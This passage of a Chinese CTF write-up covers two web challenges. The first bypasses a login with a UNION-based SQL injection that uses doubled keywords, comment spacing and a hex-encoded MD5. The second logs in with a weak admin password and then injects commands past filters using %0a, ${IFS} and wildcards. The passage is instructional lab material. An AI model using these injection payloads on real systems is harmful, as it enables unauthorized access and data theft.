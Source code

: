 之后用 `$row['password']` 跟 `$_POST['password']` 作比较, 检查密码是否正确

按这种思路的话, payload 构造如下

其中单双引号都被过滤了, 可以用 hex 绕过

比赛的时候一开始搞混了 hex unhex 的用法... 这里简单说一下

```
select hex(str) # 字符串转 hex

select 0xabcd1234 # hex 转字符串

select unhex(abcd1234) # hex 转字符串, 与上一句等价

select unhex(0xabcd1234) # hex 转 binary
```

当时直接把 hex 转换成了二进制数据, 导致一直登陆不成功...

最终 payload 如下

```
username=admnin%bf%27/**/uniounionn/**/selselectect/**/1,2,unhex(3230326362393632616335393037356239363462303731353264323334623730)%23&password=123
```

其中 `3230326362393632616335393037356239363462303731353264323334623730` unhex 之后是 `123` 的 md5 值

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191946385.png)

## 5_web_letmeguess_1

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209191948976.png)

尴尬... 写的时候发现已经不能再创建环境了

首先登录的地方是个弱口令 `admin/admin123`

然后命令执行过滤了一大堆 `; | < > & | / * -` 还有空格和 cat 之类的命令

`%0a` 可以代替 `;`, cat 可以用 nl head tail 等代替, 空格用 `${IFS}` 代替

ls 的时候看到了 kylin 文件夹, 但是 kylin 关键字被过滤了

一种方式是通过变量拼接, 例如

```
%0aa=kyl%0ab=in%0als${IFS}$a$b
```

另一种更简单的方式是用 `?` 通配符匹配单个字符

```
%0als${IFS}kyli?
```

之后看到了 flag.txt

最后用 nl 命令查看, 但是这里 `/` 被过滤了, 需要我们自己构造
